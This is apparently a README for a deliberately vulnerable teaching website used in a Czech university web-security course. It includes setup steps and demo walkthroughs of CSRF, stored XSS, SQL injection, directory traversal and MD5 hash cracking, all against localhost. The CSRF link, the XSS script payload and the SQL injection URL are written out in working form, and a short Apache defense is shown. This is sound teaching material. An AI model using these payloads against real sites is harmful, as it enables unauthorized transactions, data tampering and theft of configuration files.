 # Base website security demo
- designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

## Presentation
[Slides from presentation](PRESENTATION.pdf)

## Development
### Installation
1. [Install Docker](https://docs.docker.com/install/)
1. [Install Docker Compose](https://docs.docker.com/compose/install/)
1. Clone this repository `git clone https://github.com/intraworlds/zcu-security-demo.git`
or download [ZIP file](https://github.com/intraworlds/zcu-security-demo/archive/master.zip)

### Run
1. run `docker-compose up` and you access the website
 - **app**: http://localhost:8088/
  - username: `willis.ritchie@example.com`
  - password: `richie`
 - **adminer**: http://localhost:8086/?server=mysql&username=admin&db=zcu_demo
  - password: `1234`

> Note: It'll take a minute to build docker container - be patient.

### Simulate attacks

#### CSRF
- goto http://localhost:8088/?path=create&receiver=1&amount=1&desc=❤️&submit=create
- observe that 1 IW coin was transfered to user #1 without your consent

#### XSS (with CSRF)
- goto http://localhost:8088/?path=create
- create new transaction with following description
```html
❤️
<script>
fetch("/?path=create&receiver=1&amount=1&desc=❤️&submit=create");
</script>
```
- observe that now everybody who visits list of transactions will send a coin
to user #1 without consent

#### SQL injection
- go to http://localhost:8088/?path=list&limit=50;update%20users%20set%20name=%27Anonymous%27;
- refresh page
- observe that all users are named `Anonymous`

#### Directory traversal
try following URLs
- http://localhost:8088/docker-compose.yml
- http://localhost:8088/config/app.env
- http://localhost:8088/dumps/zcu_demo.sql

##### Defense
Adjust apache configuration
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<FilesMatch "((^$)|(^.+\.(php|css|map|js)$))">
    Require all granted
</FilesMatch>
```


#### Weak hash algorithm
try use `hashcat`
```
php scripts/crack_md5_hash.php 75b71aa6842e450f12aca00fdf54c51d
```

### Docker tips
Show all running containers
```
docker-compose ps
```
See logs
```
docker-compose logs -f
```
Connect container
```
docker-compose exec apache bash -l
```

## attacks

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)

### XSS (Cross-site Scripting)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)

### "Real" CSRF demo
<a href="http://localhost:8088/?path=create&receiver=1&amount=1&desc=❤️&submit=create">![❤️](click&win.png)</a>
